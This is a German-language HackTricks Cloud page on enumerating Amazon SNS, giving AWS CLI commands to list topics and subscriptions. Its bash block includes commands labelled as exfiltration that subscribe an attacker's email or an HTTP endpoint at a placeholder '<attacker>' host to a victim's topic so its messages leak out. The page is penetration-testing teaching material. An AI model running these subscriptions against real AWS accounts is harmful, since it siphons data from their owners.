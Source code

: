 # AWS - SNS Enum

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) wird als **vollständig verwalteter Messaging-Dienst** beschrieben. Er unterstützt sowohl **Anwendung-zu-Anwendung** (A2A) als auch **Anwendung-zu-Person** (A2P) Kommunikationsarten.

Wichtige Funktionen für die A2A-Kommunikation umfassen **Publish/Subscribe (Pub/Sub)-Mechanismen**. Diese Mechanismen führen **Themen** ein, die entscheidend sind, um hochgradige, **push-basierte, viele-zu-viele Messaging** zu ermöglichen. Diese Funktion ist besonders vorteilhaft in Szenarien, die verteilte Systeme, Microservices und ereignisgesteuerte serverlose Architekturen umfassen. Durch die Nutzung dieser Themen können Publizierungssysteme Nachrichten effizient an eine **breite Palette von Abonnentensystemen** verteilen und ein Fanout-Messaging-Muster erleichtern.

### **Unterschied zu SQS**

**SQS** ist ein **warteschlangenbasierter** Dienst, der Punkt-zu-Punkt-Kommunikation ermöglicht und sicherstellt, dass Nachrichten von einem **einzelnen Verbraucher** verarbeitet werden. Er bietet **mindestens einmalige Zustellung**, unterstützt Standard- und FIFO-Warteschlangen und ermöglicht die Nachrichtenaufbewahrung für Wiederholungen und verzögerte Verarbeitung.\
Im Gegensatz dazu ist **SNS** ein **Publish/Subscribe-basierter Dienst**, der **eins-zu-viele** Kommunikation ermöglicht, indem Nachrichten gleichzeitig an **mehrere Abonnenten** gesendet werden. Er unterstützt **verschiedene Abonnementendpunkte wie E-Mail, SMS, Lambda-Funktionen und HTTP/HTTPS** und bietet Filtermechanismen für gezielte Nachrichtenübermittlung.\
Während beide Dienste die Entkopplung zwischen Komponenten in verteilten Systemen ermöglichen, konzentriert sich SQS auf warteschlangenbasierte Kommunikation, während SNS ereignisgesteuerte, Fan-out-Kommunikationsmuster betont.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Beachten Sie, dass wenn das **Thema vom Typ FIFO** ist, nur Abonnenten, die das Protokoll **SQS** verwenden, genutzt werden können (HTTP oder HTTPS können nicht verwendet werden).

Stellen Sie außerdem sicher, dass Sie die richtige Region in **`--region`** angeben, auch wenn die `--topic-arn` die Region enthält, da Sie sonst einen Fehler erhalten, der darauf hinweist, dass Sie keinen Zugriff haben, aber das Problem die Region ist.
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
